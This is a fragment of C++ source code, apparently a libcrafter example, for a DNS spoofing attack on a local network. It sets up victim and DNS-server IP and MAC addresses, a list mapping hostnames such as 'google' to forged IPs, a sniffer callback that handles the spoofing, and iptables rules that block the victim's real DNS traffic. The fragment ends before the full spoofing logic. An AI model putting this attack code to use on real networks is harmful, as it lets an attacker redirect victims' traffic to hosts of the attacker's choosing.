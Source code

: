 ```
	string dns_ip;
	/* IP address of the victim */
	string victim_ip;
	/* MAC address of the device which is a DNS server (or the router if the DNS server is not in our local network) */
	string dns_mac;
	/* MAC address of the victim */
	string victim_mac;
	/* My MAC address */
	string my_mac;
};

/* Global map of IP-HOSTS pairs */
map<string,string> spoof_list;

/* Function for handling a packet when the sniffer caught one */
void DNSSpoofer(Packet* sniff_packet, void* user);

/* IP tables "script" for dropping the DNS traffic. */
void iptables_block(const string& iface, const string& victim_ip, int dst_port);

/* IP tables "script" that flush all rules added */
void iptables_flush(const string& iface, const string& victim_ip, int dst_port);

/* Global Sniffer pointer */
Sniffer* sniff;

/* Function for handling a CTRL-C */
void ctrl_c(int dummy) {
	/* Cancel the sniffing thread */
	sniff->Cancel();
}

int main() {

	/* Init the library */
	InitCrafter();

	/* Set the interface */
	string iface = "wlan0";

	/* Create a structure with information about the attack */
	HostInfo* host_info = new HostInfo;

	/* IP addresses -> This is a data supply by the user */
	string dns_ip = "192.168.1.1"; short_word dst_port = 53; /* DNS traffic */
	string victim_ip = "192.168.1.8";

	/* List of addresses -> This also is data supplied by the user */
	spoof_list["google"] = "1.2.3.4";
	spoof_list["proxy"] = "3.3.3.3";

	/* Create a HostInfo structure */
	host_info->iface = iface;
	host_info->dns_ip = dns_ip;
	host_info->victim_ip = victim_ip;
	host_info->dns_mac = GetMAC(dns_ip,iface);
	host_info->victim_mac = GetMAC(victim_ip,iface);
	host_info->my_mac = GetMyMAC(iface);

	/* Before the attack, execute the IPTABLES "script" */
	iptables_block(iface,victim_ip,dst_port);

```